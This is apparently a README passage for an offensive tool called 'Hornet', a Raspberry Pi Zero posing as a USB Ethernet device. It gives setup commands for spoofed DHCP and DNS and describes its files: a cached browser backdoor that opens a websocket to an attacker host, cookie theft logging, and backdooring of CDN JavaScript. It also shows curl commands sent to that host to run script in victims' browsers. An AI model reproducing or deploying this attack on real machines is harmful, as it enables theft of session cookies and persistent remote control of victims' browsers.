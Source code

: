 Note: If you find the device is NOT acting as an Ethernet controller automatically (older versions of Windows, for example), you can [change the VID and PID in pi_startup.sh](https://github.com/_thisas_/hornet/issues/8#issuecomment-265818957)

```bash
# Instructions adjusted from https://gist.github.com/gbaman/50b6cca61dd1c3f88f41
sudo bash

# If Raspbian BEFORE 2016-05-10, then run next line:
BRANCH=next rpi-update

echo -e "\nauto usb0\nallow-hotplug usb0\niface usb0 inet static\n\taddress 1.0.0.1\n\tnetmask 0.0.0.0" >> /etc/network/interfaces
echo "dtoverlay=dwc2" >> /boot/config.txt
echo -e "dwc2\ng_ether" >> /etc/modules
sudo sed --in-place "/exit 0/d" /etc/rc.local
echo "/bin/sh /home/pi/Hornet/pi_startup.sh" >> /etc/rc.local
mkdir /home/pi/Hornet
chown -R pi /home/pi/Hornet
apt-get update && apt-get upgrade
apt-get -y install isc-dhcp-server dsniff screen nodejs
```

Place dhcpd.conf in /etc/dhcp/dhcpd.conf and the rest of the files in /home/pi/Hornet, then reboot to ensure everything is working.

There are a number of <a href="https://github.com/The_Real_Thisas/Hornet" target=_blank>files in the repo</a>, which are used on different sides. The list:

* **backdoor.html** - Whenever a http://hostname/Hornet URL is hit to exfiltrate cookies, this file is what is returned as the force-cached content. It contains a backdoor that produces an outbound websocket to samy.pl:1337 (adjustable to any host/port) that remains opens waiting for commands from the server. This means when you load an iframe on a site, such as http://hostname/Hornet, this is the content that gets populated (even after Hornet is removed from the machine).
* **backend_server.js** - This is the Node.js server that you run on your Internet-accessible server. It is what the backdoor.html connects to (eg, samy.pl:1337). This is the same server you connect to send commands to your stung minion machines, eg

```bash
# pop alert to victim
curl 'http://samy.pl:1337/exec?alert("muahahahaha")'
# to set a cookie on victim
curl 'http://samy.pl:1337/exec?document.cookie="key=value"'
# to force victim to load a url via ajax (note, jQuery is stored inside the backdoor)
curl 'http://samy.pl:1337/exec?$.get("http://192.168.0.1.ip.samy.pl/login",function(d)\{console.log(d)\})'
```
* **pi_Hornet.js** - This runs via Node.js on the Raspberry Pi Zero and is the HTTP server responsible for handling any HTTP requests intercepted by Hornet, storing siphoned cookies, and injecting the cached backdoors.
* **pi_startup.sh** - This runs upon startup on the Raspberry Pi Zero in order to set the device up to emulate an Ethernet-over-USB gadget, set up our evil DHCP server, allow traffic rerouting, DNS spoofing, and to launch pi_Hornet.js above.
* **target_backdoor.js** - This file is prepended to any CDN-related Javascript files, thus backdooring them, e.g. Google CDN's jQuery URL.
* **target\_injected\_xhtmljs.html** - This is the code that gets injected into unintentional/background HTTP/AJAX requests on the victim's machine and spawns the entire attack. It is constructed in a way that it can be interpreted as HTML or as Javascript and still execute the same code. Additionally, the amazing HTML5 canvas is by the incredible <a href="http://codepen.io/ara_node/" target=_blank>Ara oen CodePen</a> and was too amazing not to include. This is the graphical craziness that appears when the page gets taken over by Hornet.
* **Hornet.cookies.log** - This file is generated once the user's machine starts sending HTTP requests to Hornet and logs the cookie from the browser along with the associated URL/domain it belongs to.
